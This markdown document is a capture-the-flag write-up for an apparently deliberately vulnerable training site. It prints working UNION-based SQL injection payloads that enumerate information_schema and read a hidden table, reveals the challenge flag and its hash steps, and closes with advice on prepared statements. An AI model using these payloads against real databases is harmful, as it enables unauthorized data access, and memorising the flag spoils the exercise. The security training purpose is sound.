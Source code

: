 # MEMBERS PAGE

## Explanations

We notice a page to search an image, just like the member page. Why not trying the same strategy with SQL injection but this time looking closer into an image related table ?

We will use again our SQL command to get all the tables of the database: 
```sql
1 UNION SELECT column_name, table_name FROM information_schema.columns
```

Last time, we looked into the `users` table. This time, after some investigation, we see `list_images` table, and particularly the `comment` column.

```sql
1 UNION SELECT title, comment FROM list_images
```

This request doesn't seem to find list_images table... Let's see which database it is linked to:
```sql
1 UNION SELECT table_name, table_schema FROM information_schema.columns
```
which gives us:
```
ID: 1 UNION SELECT table_name, table_schema FROM information_schema.columns 
First name: list_images
Surname : Member_images
```

Then let's try this now:
```sql
1 UNION SELECT title, comment FROM Member_images.list_images
```
and we get an interesting response:
```
ID: 1 UNION SELECT title, comment FROM Member_images.list_images 
First name: Hack me ?
Surname : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

Let's get the flag:
- First MD5 decoding => `albatroz`
- and then SHA256 => `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

---

## How to avoid that security breach ?

A good way to counter that could be to use Prepared statements. ORMs do that trick usually pretty well. This coding style allows the database to distinguish between code and data, regardless of what user input is supplied.

---

#### Sources

- [All infos about SQL database](https://stackoverflow.com/questions/600446/how-do-you-return-the-column-names-of-a-table)  
- [SQL injection prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [Find Table Names for SQL Injection](https://www.sqlinjection.net/table-names/)
- [MD5 Decrypter](https://md5decrypt.net/)
- [SHA256 Encrypter](https://md5decrypt.net/Sha256/)

